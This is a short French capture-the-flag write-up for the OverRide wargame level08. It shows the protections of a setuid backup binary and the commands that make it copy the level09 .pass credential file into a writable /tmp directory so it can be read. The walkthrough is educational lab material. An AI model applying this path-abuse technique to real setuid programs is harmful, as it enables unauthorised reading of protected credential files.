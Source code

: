 RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
level08@OverRide:~$ file level08 
level08: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8990336d0891364d2754de14a6cc793677b9122, not stripped

Ce binaire prend un argument en parametre. Le parametre de ce binaire sera un fichier qui sera ouvert puis lu, son contenu sera copier dans ".backups/<argv[1]>" ou le fichier sera creer, attention, si le fichier existe deja, le open renverra une erreur.

Notre but et d'ouvrir le fichier .pass du level09.

Nous nous placons donc dans /tmp qui est un repertoire ou nous avons les droits d'ecriture.
Afins que la fonction open() puisse creer le fichier et ne renvoit pas d'erreur, nous creons le path comme ceci:
mkdir -p backups//home/users/level09

level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass

Le flag du level09 a donc etait copier dans le repertoire suivant:
level08@OverRide:/tmp$ cat ./backups//home/users/level09/.pass

